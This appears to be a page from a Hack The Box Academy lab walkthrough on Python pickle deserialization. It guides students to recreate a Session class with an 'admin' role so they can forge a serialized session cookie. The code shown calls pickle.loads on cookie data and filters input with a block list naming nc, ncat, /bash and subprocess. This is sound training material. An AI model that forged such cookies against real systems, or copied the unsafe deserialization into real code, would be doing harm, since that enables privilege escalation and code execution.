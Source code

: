 ```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-6hj5e7vacq]─[~/htbooks-src]
└──╼ [★]$ touch exploit/exploit-admin.py && touch exploit/util/auth.py
```

In `exploit/util/auth.py`, students need to specify the `admin` role and recreate the structure of `Session` (identical to how it is performed in the original `util/auth.py`), and define a custom constructor such that it accepts the parameters `username` and `role`. When serializing a class in Python, the functions defined inside it don't matter but only parameters do, therefore, students can take out the rest of the functions that are inside the original `util/auth.py`:

Code: python

```python
import pickle
import base64

class Session:
    def __init__(self, username, role):
        self.username = username
        self.role = role

def sessionToCookie(session):
    p = pickle.dumps(session)
    b = base64.b64encode(p)
    return b

def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"Popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
```

Students can use `cat` to insert the Python code into `exploit/util/auth.py`:

Code: shell

```shell
cat << 'EOF' > exploit/util/auth.py
import pickle
import base64

class Session:
    def __init__(self, username, role):
        self.username = username
        self.role = role

def sessionToCookie(session):
    p = pickle.dumps(session)
    b = base64.b64encode(p)
    return b

def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"Popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
EOF
```
